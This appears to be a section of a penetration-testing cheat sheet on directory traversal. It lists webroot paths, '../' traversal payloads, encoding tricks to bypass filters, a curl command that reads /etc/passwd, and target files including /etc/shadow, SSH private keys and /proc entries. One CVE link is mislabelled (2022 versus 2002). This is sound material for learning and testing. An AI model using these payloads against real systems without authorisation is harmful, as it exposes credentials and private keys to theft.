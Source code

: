 
### 2.6.4 Directory Traversal

On Linux, `/var/www/html/` is commonly the webroot. Other Linux options: `/usr/share/nginx/www` or `/usr/share/nginx/html`.

On Windows IIS, it's `C:\inetpub\wwwroot\`. For Windows XAMPP, it's `C:\xampp\htdocs\`

Sometimes you can read [sensitive files](#sensitive-files) by changing the URL query params to point
to a file using the relative path.

Example:

```
https://example.com/cms/login.php?language=en.html
```

Here, `en.html` appears to be a file in the `/cms/` directory under the webroot.
We can try changing `en.html` to `../../../../etc/passwd` to see if it lets us
view the file.

Things to try when testing for traversal vuln:
- Add extra `../` to ensure you make it all the way to the filesystem root.
- Use backslashes (`\`) instead of forward slashes (`/`), especially on Windows.
- URL encode the `../` -> `%2E%2E%2F` to bypass filters
- Double-encode the `../` -> `%252E%252E%252F`; IIS 5.0 and earlier
- UTF-8 encode the `../` -> `%C0%AE%C0%AE%2F` (`%c0%ae` is `.`); [cve-2022-1744][cve-2022-1744]{:target="_blank"}
- Use `....//` instead of `../` to bypass filters
- Append null byte (`%00`) if you suspect file extension is getting added
- Check out [DotDotPwn](https://github.com/wireghoul/dotdotpwn) fuzzing tool.

[cve-2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744


When using `curl` to test, you may need to include the `--path-as-is` flag:

```sh
curl --path-as-is http://localhost/?page=/../../../../etc/passwd
```


**Files to try:**
- `/etc/passwd`
- `/etc/shadow` if permissions allow
- `C:\Windows\System32\drivers\etc\hosts` - good to test traversal vuln
- `.ssh/id_rsa` files under user home dir (after seeing in `/etc/passwd`)
  - also `id_dsa`, `id_ecdsa`, and `id_ed25519`
- other [sensitive files](#7.1%20Sensitive%20Files)

The `proc` filesystem has useful info for enumerating the host:

```
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug  # Can be used to see what processes the machine is running
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/net/fib_trie
/proc/[0-9]*/fd/[0-9]*  # (first number is the PID, second is the file descriptor)
```
